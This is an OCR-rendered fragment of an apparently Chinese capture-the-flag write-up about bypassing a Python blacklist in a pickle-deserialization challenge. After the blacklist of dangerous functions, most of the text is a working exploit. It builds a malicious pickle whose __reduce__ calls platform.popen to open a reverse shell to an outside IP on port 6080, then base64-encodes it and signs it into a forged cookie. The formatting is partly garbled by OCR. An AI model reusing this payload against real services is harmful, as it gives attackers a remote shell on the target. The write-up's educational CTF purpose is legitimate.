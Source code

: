 ```

                *if*sha == *"23d325e6647915ee00c719b1b51275d18221453f53917403730a0dd4ff5ddcee"*:
                    *print*(flag)

                    time_end = time.time()

                    *print*time_end - time_start
                    sys.exit()


```

![](README/luffy10.png)

除此之外，这边还有一个黑名单
**black_type_list = [eval, execfile, compile, open, file, os.system, os.popen, os.popen2, os.popen3, os.popen4, os.fdopen, os.tmpfile, os.fchmod, os.fchown, os.open, os.openpty, os.read, os.pipe, os.chdir, os.fchdir, os.chroot, os.chmod, os.chown, os.link, os.lchown, os.listdir, os.lstat, os.mkfifo, os.mknod, os.access, os.mkdir, os.makedirs, os.readlink, os.remove, os.removedirs, os.rename, os.renames, os.rmdir, os.tempnam, os.tmpnam, os.unlink, os.walk, os.execl, os.execle, os.execlp, os.execv, os.execve, os.dup, os.dup2, os.execvp, os.execvpe, os.fork, os.forkpty, os.kill, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe, os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe, pickle.load, pickle.loads, cPickle.load, cPickle.loads, subprocess.call, subprocess.check_call, subprocess.check_output, subprocess.Popen, commands.getstatusoutput, commands.getoutput, commands.getstatus, glob.glob, linecache.getline, shutil.copyfileobj, shutil.copyfile, shutil.copy, shutil.copy2, shutil.move, shutil.make_archive, dircache.listdir, dircache.opendir, io.open, popen2.popen2, popen2.popen3, popen2.popen4, timeit.timeit, timeit.repeat, sys.call_tracing, code.interact, code.compile_command, codeop.compile_command, pty.spawn, posixfile.open, posixfile.fileopen]**

利用platform库可以绕过

```
*import*pickle
*import*base64
*from*hashlib *import*sha256
*import*platform
*import*requests

*class*eval_code(object):

    *def*__reduce__(self):
        /#platform.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")/

*return*(platform.popen,(*"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"172.168.46.145\",6080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"*,))


eval_whoami = eval_code()
location = base64.b64encode(pickle.dumps(eval_whoami))

digest = sha256(*"%s%s"*% (location, *"Wtu9"*)).hexdigest()

cookie = *"%s!%s"*% (digest, location)

```